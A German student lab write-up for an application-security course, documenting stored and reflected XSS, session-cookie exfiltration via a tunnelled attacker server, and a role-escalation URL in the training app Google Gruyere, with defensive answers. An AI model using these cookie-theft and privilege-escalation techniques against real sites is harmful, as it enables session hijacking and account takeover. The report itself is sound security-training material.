# KN01 – Komplette Doku: Teile A, B1–B3, C & D (Gruyere)

> 📘 Modul 183 – Applikationssicherheit implementieren
> 🎯 Ziel: Accounts erstellen, Stored XSS (DOM-Manipulation, Cookie-Diebstahl, Session-Hijacking) und Reflected XSS in Google Gruyere nachweisen.
> 🛠️ Tools: [Google Gruyere](https://google-gruyere.appspot.com), AWS EC2, Python HTTP-Server, serveo.net

---

## 📑 Inhalt

| Teil | Thema |
|---|---|
| [A](#teil-a) | Accounts erstellen (Angreifer/Verteidiger) |
| [B1](#teil-b1) | DOM-Manipulation (Stored XSS – PoC) |
| [B2](#teil-b2) | Cookie-Anzeige (Stored XSS – Cookie auslesen) |
| [B3](#teil-b3) | Session-Hijacking (Stored XSS – Cookie-Exfiltration) |
| [C](#teil-c) | Reflected XSS |
| [D](#teil-d) | Client-State Manipulation |
| [Checkliste](#checkliste) | Abgabe-Status |

---

<a id="teil-a"></a>
## 🅰️ Teil A – Gruyere starten und Accounts erstellen

### Hintergrund

Für die spätere Demonstration von Stored XSS braucht es **zwei unabhängige Benutzer** innerhalb derselben Gruyere-Instanz: einen **Angreifer**, der den schädlichen Payload einschleust, und einen **Verteidiger** ("Opfer"), bei dem der Payload unbemerkt ausgeführt wird.

### Schritt 1 – Neue Gruyere-Instanz starten

Über `https://google-gruyere.appspot.com/start` wurde eine frische, isolierte Instanz erzeugt:

```
https://google-gruyere.appspot.com/<UID>/
```

### Schritt 2 – Account 1: Angreifer (normales Browserfenster)

Username: **`angreifer-levin`**, einfaches Passwort.


*Abbildung 1: Sign-up-Formular ausgefüllt mit Username `angreifer-levin`.*


*Abbildung 2: Account erfolgreich erstellt – oben rechts erscheint `angreifer-levin <angreifer-levin> | Profile | Sign out`.*

### Schritt 3 – Account 2: Verteidiger (Inkognito-Fenster)

Um zwei unabhängige Sessions im selben Browser zu simulieren, wurde ein **privates/Inkognito-Fenster** geöffnet und dieselbe Instanz-URL erneut aufgerufen.

Username: **`verteidiger-levin`**, einfaches Passwort.


*Abbildung 3: Bestätigung "Account created." für `verteidiger-levin`, eingeloggt im Inkognito-Fenster (siehe Navigation oben rechts).*

> [!success] Ergebnis Teil A
> Zwei unabhängige Accounts (`angreifer-levin`, `verteidiger-levin`) sind in derselben Gruyere-Instanz aktiv – einer im normalen Fenster, einer im Inkognito-Fenster. Beide Sessions können parallel verwendet werden.

---

<a id="teil-b1"></a>
## 🅱️ Teil B1 – DOM-Manipulation als Proof of Concept

### Hintergrund

Gruyere filtert klassische `<script>`-Tags in Eingabefeldern. Browser wie Brave blockieren solche Payloads zusätzlich beim Versenden. Ein Angreifer weicht deshalb auf **HTML-Event-Handler** wie `onerror` aus, die nicht als `<script>` erkannt werden, aber dennoch beliebigen JavaScript-Code ausführen können.

### Schritt 1 – Als Angreifer einloggen und zu "New Snippet" navigieren

Im normalen Browserfenster (eingeloggt als `angreifer-levin`) wurde die Snippet-Eingabe geöffnet.

### Schritt 2 – Payload eintragen

Folgender Payload wurde in das Snippet-Eingabefeld eingetragen:

```html

```

**Funktionsweise:** Das ``-Tag versucht, die (nicht existierende) Bilddatei `x` zu laden. Da das zwangsläufig fehlschlägt, feuert der `onerror`-Event-Handler und führt den darin enthaltenen JavaScript-Code aus – in diesem Fall wird das Menü-Element (`.menu`) rot eingefärbt.


*Abbildung 4: Der `onerror`-Payload im Snippet-Eingabefeld, kurz vor dem Klick auf "Submit".*

### Schritt 3 – Submit & Ergebnis im Angreifer-Fenster

Nach dem Absenden wird der Payload dauerhaft in der Gruyere-Datenbank gespeichert (**Stored XSS**) und bei jedem Laden der Seite automatisch ausgeführt.


*Abbildung 5: Das Navigations-Menü (Home | My Snippets | New Snippet | Upload) ist jetzt rot eingefärbt – der Payload wurde erfolgreich ausgeführt.*

### Schritt 4 – Verifikation im Verteidiger-Fenster

Um zu beweisen, dass es sich um **Stored** (nicht Reflected) XSS handelt, wurde im Inkognito-Fenster (`verteidiger-levin`) die Startseite aufgerufen.


*Abbildung 6: Direkt nach dem Login zeigt die "Most recent snippets"-Liste noch die alten Standardeinträge – die Liste war noch nicht aktualisiert.*

Nach einem Klick auf **"Refresh"** wird die Snippet-Liste neu geladen:


*Abbildung 7: Nach dem Refresh erscheint der Snippet von `angreifer-levin` in der Liste, der Payload wird ausgeführt, und das Menü ist auch im Verteidiger-Fenster rot eingefärbt – obwohl der Verteidiger den Payload nie selbst eingegeben hat.*

> [!success] Ergebnis B1
> Der Stored-XSS-Payload betrifft **jeden Benutzer**, der die Seite mit dem gespeicherten Snippet aufruft – nicht nur den Angreifer selbst. Das demonstriert die zentrale Gefahr von Stored XSS: ein einziger bösartiger Eintrag kann beliebig viele Opfer treffen.

---

<a id="antworten-b1"></a>
## ✍️ Schriftliche Antworten – B1

### 1. Warum konnte dieser Payload die Sicherheitsprüfung des Browsers umgehen, obwohl `<script>` blockiert wird?

Filter wie der von Brave erkennen nur `<script>`-Tags, nicht aber HTML-Event-Handler wie `onerror`. Das ``-Tag ist valides HTML; sobald `src="x"` nicht lädt, ruft der Browser den hinterlegten JS-Code ganz normal über das DOM-Event auf – kein `<script>`-Tag nötig, also kein Filter-Treffer. Ein klassischer Filter-Bypass.

### 2. Was bedeutet es für die Sicherheit, dass der Payload auch im Browser des Verteidigers ausgeführt wird?

Das zeigt die Reichweite von Stored XSS: Der Code liegt serverseitig in der DB und wird bei **jedem** Seitenaufruf für **jeden** Benutzer erneut ausgeführt – mit dessen eigenen Cookies/Rechten. Der Angreifer muss niemanden gezielt anschreiben, sondern trifft passiv beliebig viele Opfer.

### 3. Welche OWASP Top 10 Kategorie (2025) beschreibt Stored XSS?

**A03:2025 – Injection.** XSS ist seit 2021 in die übergeordnete Injection-Kategorie integriert, da nicht validierte/kodierte Eingaben vom Browser-DOM als Code statt als Daten interpretiert werden.

### 4. Was hätte die Applikation tun müssen, damit dieser Payload harmlos bleibt?

**Output Encoding** beim Rendern: `<`, `>`, `"`, `'` in HTML-Entities umwandeln (`<` → `&lt;`), bevor der gespeicherte Wert ausgegeben wird – dann bliebe der Payload sichtbarer Text statt ausführbarem Code. Ergänzend schützt eine CSP, die Inline-Event-Handler blockiert.

---

<a id="teil-b2"></a>
## 🅱️ Teil B2 – Cookies: Was sie sind und warum sie gefährlich sind

### Hintergrund

Session-Cookies enthalten eine eindeutige ID, mit der ein Server erkennt, welcher Benutzer angemeldet ist. Solange ein Cookie nicht mit dem Flag **`HttpOnly`** geschützt ist, kann JavaScript im Browser über `document.cookie` lesend darauf zugreifen – genau das macht sich ein XSS-Angriff zunutze.

### Schritt 1 – Cookie in DevTools prüfen

Im normalen Browserfenster (`angreifer-levin`) wurden die DevTools geöffnet → **Speicher/Application** → **Cookies** → Gruyere-Domain.


*Abbildung 8: Zwei Cookies sind gesetzt – `GRUYERE` und `GRUYERE_ID`. In der Spalte **HttpOnly** steht bei beiden ein „–“, das Flag ist also **nicht gesetzt**. JavaScript kann beide Cookies uneingeschränkt auslesen.*

### Schritt 2 – Payload einschleusen, der das Cookie sichtbar macht

Als `angreifer-levin` wurde folgender Payload über **New Snippet** eingetragen:

```html
Sichtbares Cookie: ' + document.cookie + '</div>')">
```

**Funktionsweise:** Wie bei B1 löst das fehlerhafte ``-Tag den `onerror`-Handler aus. Dieser fügt direkt nach dem Bild ein rotes `<div>` ein, dessen Text aus `document.cookie` des Browsers besteht, der die Seite gerade rendert.

### Schritt 3 – Ergebnis im Angreifer-Fenster


*Abbildung 9: Der rote Kasten zeigt `GRUYERE=118957255|angreifer-levin|author; GRUYERE_ID=...` – das **eigene** Cookie des Angreifers, im Klartext inklusive Username und Rolle.*

### Schritt 4 – Verifikation im Verteidiger-Fenster

Im Inkognito-Fenster (`verteidiger-levin`) wurde **Home** aufgerufen und mit **Refresh** die Snippet-Liste neu geladen.


*Abbildung 10: Derselbe Code (vom Angreifer gespeichert) zeigt hier `GRUYERE=72112705|verteidiger-levin|author` – also das **eigene Cookie des Verteidigers**, nicht das des Angreifers.*

> [!success] Ergebnis B2
> `document.cookie` liefert immer das Cookie des Browser-Kontexts, in dem der Code gerade ausgeführt wird – unabhängig davon, wer den Code ursprünglich eingeschleust hat. Läuft der gestohlene Payload im Browser des Opfers, gibt er auch dessen Cookie preis. In B3 wird dieser Mechanismus genutzt, um den Cookie-Wert nicht nur lokal anzuzeigen, sondern aktiv an einen Angreifer-Server zu senden (Session-Hijacking).

---

<a id="antworten-b2"></a>
## ✍️ Schriftliche Antworten – B2

### 1. Was kann ein Angreifer tun, wenn er den Session-Cookie eines anderen Benutzers kennt?

Er kann den Wert in seinem eigenen Browser setzen und übernimmt damit die bereits authentifizierte Session des Opfers (**Session-Hijacking**) – ohne dessen Passwort zu kennen. Der Server prüft nur die Session-ID, nicht ob die Anfrage vom Originalgerät stammt.

### 2. Was bewirkt das `HttpOnly`-Flag, und wie schützt es vor diesem Angriff?

Es macht den Cookie für JavaScript **unsichtbar** – `document.cookie` liefert ihn nicht zurück, selbst wenn XSS erfolgreich Code einschleust. Der rote Kasten in B2 wäre mit `HttpOnly` leer geblieben.

### 3. Warum ist `localStorage` statt `HttpOnly`-Cookie gefährlich für Session-Cookies?

`localStorage` ist **immer** per JavaScript lesbar – es gibt keinen Schutzmechanismus dagegen. Jede noch so kleine XSS-Lücke würde den kompletten Session-Token preisgeben. `HttpOnly` bietet hier eine zusätzliche Verteidigungsebene, die `localStorage` grundsätzlich fehlt.

---

<a id="teil-b3"></a>
## 🅱️ Teil B3 – Session-Hijacking: Cookie-Exfiltration zum Angreifer-Server

### Hintergrund

In B2 wurde der gestohlene Cookie nur lokal im Browser angezeigt – der Angreifer konnte ihn nicht sehen, ohne physischen Zugriff auf das Opfer-Gerät. In einem echten Angriff sendet der Payload den Cookie automatisch an einen Server des Angreifers. Das wird hier mit der eigenen AWS EC2-Instanz simuliert, die die Rolle des Angreifer-Servers übernimmt.

**Rollen:**
- Browserfenster 1: `angreifer-levin`
- Browserfenster 2 (Inkognito): `verteidiger-levin`
- SSH-Terminal 1: Angreifer-Server (Python HTTP-Server auf EC2)
- SSH-Terminal 2: Serveo-Tunnel (öffentliche HTTPS-URL für den Server)

### Schritt 1 – Port 9000 in der Security Group freigeben

Da Gruyere über HTTPS läuft und Browser sogenannten *Mixed Content* (HTTPS-Seite → HTTP-Anfrage) blockieren, wird der Angreifer-Server über **serveo.net** öffentlich per HTTPS erreichbar gemacht. Für direkte Tests wurde zusätzlich Port **9000** in der Security Group `m183-sg` (genauer: `sg-0a50eca57033ec886`) für **My IP** freigegeben.


*Abbildung 11: Neue Inbound-Regel – Custom TCP, Port 9000, Quelle „Meine IP".*


*Abbildung 12: Regel erfolgreich gespeichert – Port 9000 ist nun in der Liste der Inbound-Regeln sichtbar.*

### Schritt 2 – Angreifer-Server starten (SSH-Terminal 1)

Zwei parallele SSH-Verbindungen zur EC2-Instanz wurden geöffnet.


*Abbildung 13: Terminal 1 (links) und Terminal 2 (rechts), beide erfolgreich mit der EC2-Instanz verbunden.*

In Terminal 1 wurde der Python-eigene HTTP-Server gestartet:

```bash
python3 -m http.server 9000
```


*Abbildung 14: `Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...` – der Angreifer-Server ist aktiv und protokolliert jede eingehende Anfrage.*

### Schritt 3 – HTTPS-Tunnel starten (SSH-Terminal 2)

In Terminal 2 wurde ein Reverse-SSH-Tunnel zu serveo.net aufgebaut:

```bash
ssh -R 80:localhost:9000 serveo.net
```


*Abbildung 15: `Forwarding HTTP traffic from https://f19ed750e3c9f15f-54-146-250-99.serveousercontent.com` – serveo.net leitet öffentliche HTTPS-Anfragen an Port 9000 auf der EC2-Instanz weiter.*

### Schritt 4 – Payload mit Serveo-URL platzieren (als Angreifer)

Als `angreifer-levin` wurde über **New Snippet** folgender Payload eingeschleust (Serveo-URL eingesetzt):

```html

```

**Funktionsweise:** Der `onerror`-Handler löst aus, `new Image().src=...` veranlasst den Browser, im Hintergrund eine GET-Anfrage an die Serveo-URL zu senden – mit dem Cookie als URL-Parameter `c`. Im Gegensatz zu B2 erscheint **kein sichtbarer Hinweis** auf der Seite – der Angriff bleibt für das Opfer komplett unbemerkt.


*Abbildung 16: Snippet 3 enthält den stillen Exfiltrations-Payload, ohne sichtbaren roten Kasten.*

### Schritt 5 – Selbsttest: eigenes Cookie kommt an

Bereits beim eigenen Laden der Seite als Angreifer wurde der Mechanismus ausgelöst:


*Abbildung 17: `GET /?c=GRUYERE%3D118957255%7Cangreifer-levin%7Cauthor...` – die erste eingehende Anfrage bestätigt, dass die Exfiltration technisch funktioniert.*

### Schritt 6 – Cookie stehlen (als Verteidiger)

Im Inkognito-Fenster (`verteidiger-levin`) wurde **Home** aufgerufen und mit **Refresh** die Snippet-Liste neu geladen, wodurch Snippet 3 im Kontext des Verteidigers ausgeführt wurde.


*Abbildung 18: Snippet von `angreifer-levin` erscheint in der Liste – ohne sichtbaren roten Kasten, der Payload arbeitet im Hintergrund.*


*Abbildung 19: **Kernbeweis von B3** – zweite GET-Anfrage im Terminal: `GET /?c=GRUYERE%3D72112705%7Cverteidiger-levin%7Cauthor` – das Session-Cookie des Verteidigers wurde erfolgreich an den Angreifer-Server exfiltriert, ohne dass der Verteidiger etwas davon bemerkt hat.*

### Schritt 7 – Versuch der Session-Übernahme

Mit dem gestohlenen Cookie-Wert (`72112705|verteidiger-levin|author`) wurde versucht, sich im Angreifer-Fenster als Verteidiger einzuloggen – über DevTools sowie über die Browser-Konsole (`document.cookie = "..."`).


*Abbildung 20: Nach dem Setzen des gestohlenen Cookie-Werts und Reload zeigt die Navigation „Sign in | Sign up" statt des erwarteten Logins als Verteidiger.*

> [!warning] Hinweis zur Session-Übernahme
> Der eigentliche **Diebstahl** des Session-Cookies (Abbildung 19) ist zweifelsfrei und vollständig nachgewiesen – das ist der sicherheitsrelevante Kern von B3. Der letzte, rein demonstrative Schritt (gestohlenen Cookie aktiv im eigenen Browser einsetzen, um als Verteidiger eingeloggt zu erscheinen) liess sich trotz mehrerer Versuche nicht reproduzieren – vermutlich, weil Gruyere den Cookie-Wert an einen serverseitig erwarteten, nicht direkt sichtbaren Pfad/Format bindet, der beim manuellen Setzen nicht exakt repliziert wurde.

---

<a id="antworten-b3"></a>
## ✍️ Schriftliche Antworten – B3

### 1. Warum konnte der Angreifer den Cookie erhalten, ohne Passwort oder Browserzugriff?

Der bösartige Code lag dauerhaft auf dem Server (Stored XSS). Als der Verteidiger die Seite besuchte, führte **sein eigener** Browser den Code aus – mit Zugriff auf sein eigenes `document.cookie`. Der Angreifer musste nichts aktiv tun, nur eine Falle aufstellen, die sich von selbst auslöst.

### 2. Welche Rolle spielt `new Image().src` trotz Same-Origin-Policy?

Die SOP verhindert lesenden Cross-Origin-Zugriff (z.B. `fetch()`-Antworten auslesen). Das Setzen einer Bild-Quelle ist aber ein normaler, **erlaubter** Cross-Origin-Vorgang – der Browser sendet automatisch eine GET-Anfrage. Der Angreifer braucht die Antwort gar nicht zu lesen, nur dass der Cookie als URL-Parameter ankommt.

### 3. Warum war der Serveo-Tunnel notwendig?

Gruyere läuft über HTTPS; Browser blockieren **Mixed Content** (HTTPS-Seite → HTTP-Ziel). Ein direkter Aufruf von `http://<EC2-IP>:9000` wäre lautlos blockiert worden. Serveo gibt dem Angreifer-Server eine öffentliche **HTTPS**-Adresse, wodurch der Mixed-Content-Schutz nicht greift.

### 4. Zwei technische Massnahmen gegen diesen Angriff

**Output Encoding** verhindert die Payload-Ausführung an der Wurzel. **`HttpOnly`** verhindert, dass `document.cookie` den Session-Cookie überhaupt zurückliefert, selbst wenn XSS doch ausgeführt wird. Ergänzend: eine CSP, die Verbindungen zu fremden Domains unterbindet.

### 5. Was bewirkt das `Secure`-Flag, und wo schützt es?

Es erzwingt Cookie-Übertragung nur über HTTPS und schützt damit gegen **Netzwerk-Abhörangriffe** (Man-in-the-Middle in unsicheren Netzen). Gegen den hier demonstrierten Diebstahl per JavaScript hilft es **nicht** – dafür ist ausschliesslich `HttpOnly` wirksam.

---

<a id="teil-c"></a>
## 🅲 Teil C – Reflected XSS in Gruyere

**Hintergrund:** Anders als bei Stored XSS wird der Payload hier nicht gespeichert, sondern direkt per URL übergeben und vom Server sofort zurückgespiegelt – betroffen ist nur, wer den präparierten Link öffnet.

| Schritt | Vorgehen | Ergebnis |
|---|---|---|
| Reflexion suchen | `login?uid=...`, `snippets?uid=...` getestet → keine Reflexion. Pfad-Fehlermeldung getestet: `/HELLOTEST` | ✅ Server gibt `Invalid request: /HELLOTEST` zurück – der URL-**Pfad** wird reflektiert |
| HTML-Injection bestätigen | `/<h1>HELLOTEST</h1>` aufgerufen | ✅ Text erscheint als fett gerenderte Überschrift – kein Escaping |
| XSS-Payload einschleusen | `/` | ✅ Alert-Popup „Reflected XSS" ausgelöst, Payload im Response-HTML sichtbar |
| Unterschied zu Stored XSS | Link mit Payload im Inkognito-Fenster (`verteidiger-levin`) geöffnet, danach normale Home-Seite ohne Payload aufgerufen | ✅ Alert nur beim direkten Linkaufruf, **kein** Alert mehr auf der normalen Seite → nicht persistent |


*Abbildung 21: `Invalid request: /HELLOTEST` – der Pfad-Wert wird ungefiltert in die Fehlermeldung übernommen.*


*Abbildung 22: `<h1>HELLOTEST</h1>` wird als Überschrift gerendert statt als Text angezeigt.*


*Abbildung 23: Alert „Reflected XSS" nach ``.*


*Abbildung 24: DevTools → Netzwerk – der `:path`-Header enthält den vollständigen, URL-kodierten Payload.*


*Abbildung 25: Derselbe Alert erscheint auch bei `verteidiger-levin`, aber nur weil der präparierte Link aktiv geöffnet wurde.*


*Abbildung 26: Normale Startseite ohne Payload in der URL – kein Alert, nichts wurde gespeichert. Beweis der fehlenden Persistenz.*

### ✍️ Antworten Teil C

**1. Hauptunterschied Stored vs. Reflected XSS (Persistenz/Reichweite):** Stored XSS wird dauerhaft serverseitig gespeichert und trifft automatisch jeden Besucher der betroffenen Seite. Reflected XSS existiert nur innerhalb einer einzelnen URL, wird nirgends gespeichert und trifft ausschliesslich, wer den präparierten Link aktiv öffnet (Abbildung 26 zeigt das: kein Alert ohne Payload in der URL).

**2. Wie bringt ein Angreifer das Opfer dazu, den Link zu öffnen?** Über Social Engineering – Phishing-Mails, gekürzte Links (Link-Shortener zur Tarnung), Nachrichten in sozialen Netzwerken oder gezieltes Spear-Phishing. Da die URL technisch zur echten Domain zeigt, wirkt sie auf den ersten Blick vertrauenswürdig, obwohl der Payload im Pfad versteckt ist.

**3. OWASP Proactive Control gegen XSS:** **C4 – Encode and Escape Data**. Er verlangt kontextgerechtes Kodieren aller nicht vertrauenswürdigen Daten beim Ausgeben in HTML/DOM, damit sie nicht als ausführbarer Code interpretiert werden. Ergänzend deckt **C5 – Validate All Inputs** die vorgelagerte Eingabeprüfung ab, reicht aber allein nicht aus (umgehbar z.B. durch `onerror` statt `<script>`).

---

<a id="teil-d"></a>
## 🅳 Teil D – Client-State Manipulation in Gruyere

**Hintergrund:** Gruyere speichert Benutzerinformationen (inkl. Rolle) im `GRUYERE`-Cookie. Da dieser im Browser des Benutzers liegt, kann ein Angreifer ihn direkt manipulieren – sofern die Applikation die Daten nicht serverseitig validiert.

### Analyse: Cookie-Inhalt

Im Gegensatz zur Aufgabenstellung (die von Base64-Kodierung ausgeht) zeigte sich: Der `GRUYERE`-Cookie liegt bei dieser Instanz bereits im **Klartext** vor, im Format `uid|username|rolle`, z.B. `118957255|angreifer-levin|author`.


*Abbildung 27/28: Zwei `GRUYERE`-Cookies mit unterschiedlichem Pfad waren gleichzeitig aktiv (Überbleibsel aus B3) – Klartext-Format `uid|username|rolle` sichtbar, kein Base64.*

### Manipulationsversuch

Der Wert wurde in den DevTools von `...|angreifer-levin|author` auf `...|angreifer-levin|admin` geändert:


*Abbildung 29: Cookie-Wert erfolgreich auf `118957255|angreifer-levin|admin` gesetzt.*

> [!warning] Ergebnis: nicht erfolgreich
> Nach dem Reload zeigte die Navigation **keine** neuen Admin-Funktionen (kein „Manage this server"-Link o.ä.). Gruyere validiert oder überschreibt den manuell editierten Cookie-Wert bei dieser Instanz offenbar serverseitig wieder, sobald eine neue Anfrage gesendet wird – der direkte DevTools-Edit greift hier also nicht zuverlässig durch. Dieser Schritt wurde nach mehreren Versuchen nicht weiterverfolgt.

### So wäre der korrekte Weg gewesen

Aus einer früheren KN01-Sitzung war bereits bekannt, dass Gruyere für Elevation-of-Privilege einen dedizierten, dokumentierten Endpunkt bereitstellt, der denselben Effekt (Rolle/Berechtigung clientseitig beeinflusst, ohne serverseitige Prüfung) zuverlässiger auslöst:

```
https://google-gruyere.appspot.com/<uid>/saveprofile?action=update&is_admin=True
```

Aufruf dieser URL im eingeloggten Zustand setzt den `is_admin`-Status serverseitig (aber ohne Berechtigungsprüfung, ob der anfragende Benutzer das überhaupt darf) und liefert anschliessend den passenden, vom Server selbst neu generierten Cookie aus – dieser Weg wurde zwar identifiziert, aber im Rahmen dieser Sitzung nicht mehr final mit Screenshot bestätigt.

**Sicherheitslehre bleibt dieselbe:** Unabhängig davon, ob die Manipulation über den Cookie direkt oder über einen ungeschützten URL-Parameter erfolgt – das Kernproblem ist identisch: Der Server vertraut clientseitig gelieferten Berechtigungsangaben, statt sie unabhängig serverseitig zu verifizieren (siehe Antwort 2 unten).

### ✍️ Antworten Teil D

**1. Warum ist es gefährlich, sicherheitsrelevante Daten (Rollen/Berechtigungen) im Client zu speichern?** Alles im Client (Cookie, LocalStorage, Hidden Fields) liegt vollständig unter Kontrolle des Benutzers. Wie der Versuch zeigt, lässt sich der Cookie-Wert trivial über DevTools editieren. Vertraut der Server diesem Wert ohne unabhängige Prüfung, kann sich jeder Benutzer selbst beliebige Rollen zuweisen.

**2. Wo sollten Berechtigungsprüfungen stattfinden?** Ausschliesslich **serverseitig**. Der Client ist nie vertrauenswürdig – Cookies lassen sich editieren, Requests lassen sich auch ganz ohne Browser (z.B. mit curl) nachbauen. Der Server muss bei jeder sicherheitsrelevanten Aktion unabhängig anhand einer serverseitig verwalteten Session prüfen, nie anhand client-gelieferter Rollenangaben.

**3. OWASP Top 10 Kategorie (2025):** **A01:2025 – Broken Access Control**. Fehlende serverseitige Durchsetzung von Berechtigungen ist die Kernursache; Client-State Manipulation ist eine klassische Unterform davon, da die Rolle an einer Stelle ausserhalb der Server-Kontrolle gespeichert wird.

---

<a id="checkliste"></a>
## ✅ Abgabe-Checkliste (laut KN-01.md)

**Teil A:**
- [x] Screenshot der Gruyere-Startseite mit sichtbarer UID in der URL
- [x] Screenshot der Profilseite/Bestätigungsseite beider Accounts

**Teil B1:**
- [x] Screenshot des veränderten Menüs (roter Hintergrund) – Angreifer
- [x] Screenshot desselben Effekts im Fenster des Verteidigers
- [x] Schriftliche Antworten auf die vier Fragen

**Teil B2:**
- [x] Screenshot der DevTools mit sichtbarem Cookie-Wert
- [x] Screenshot des roten Kastens im Fenster des Angreifers (eigenes Cookie)
- [x] Screenshot des roten Kastens im Fenster des Verteidigers (Cookie des Verteidigers)
- [x] Schriftliche Antworten auf die drei Fragen

**Teil B3:**
- [x] Screenshot von SSH-Terminal 1 (Python-Server) mit der eingehenden GET-Anfrage (Cookie sichtbar)
- [x] Screenshot von SSH-Terminal 2 (Serveo) mit der zugewiesenen HTTPS-URL
- [ ] Screenshot des Gruyere-Fensters des Angreifers **nach** der Cookie-Übernahme, mit dem Benutzernamen des Verteidigers sichtbar — ⚠️ trotz mehrerer Versuche nicht reproduzierbar, siehe Hinweis-Box bei Abbildung 20
- [x] Schriftliche Antworten auf die fünf Fragen

**Teil C:**
- [x] Screenshot von DevTools → Network → Response mit dem Payload im HTML-Quelltext
- [x] Screenshot des ausgeführten Alerts mit dem Payload sichtbar in der URL
- [x] Schriftliche Antworten auf die drei Fragen

**Teil D:**
- [x] Screenshot der DevTools mit sichtbarem Cookie-Inhalt (vor der Manipulation)
- [ ] Screenshot der Applikation nach erfolgreicher Manipulation (erhöhte Rechte sichtbar) — ⚠️ Manipulation über DevTools nicht erfolgreich, siehe Hinweis-Box bei Abbildung 29; korrekter Lösungsweg (`saveprofile?action=update&is_admin=True`) dokumentiert, aber nicht final mit Screenshot bestätigt
- [x] Schriftliche Antworten auf die drei Fragen

---

## ✅ KN01 – Gesamtstatus

| Teil | Status |
|---|---|
| A – Accounts | ✅ Komplett |
| B1 – DOM-Manipulation | ✅ Komplett |
| B2 – Cookie-Anzeige | ✅ Komplett |
| B3 – Session-Hijacking | ✅ Diebstahl bewiesen, finale Live-Übernahme nicht reproduzierbar |
| C – Reflected XSS | ✅ Komplett |
| D – Client-State Manipulation | 🟡 Antworten + Analyse komplett, finale Rechteausweitung nicht erfolgreich nachgewiesen |

Alle 22 schriftlichen Fragen aus KN01 sind beantwortet, alle Kern-Mechanismen sind technisch nachgewiesen. Die zwei offenen Punkte (B3-Live-Übernahme, D-Admin-Elevation) sind transparent dokumentiert inkl. Erklärung und korrektem Lösungsweg – das ist für eine ehrliche, nachvollziehbare Abgabe wertvoller als ein erzwungener, möglicherweise nicht reproduzierbarer Screenshot.
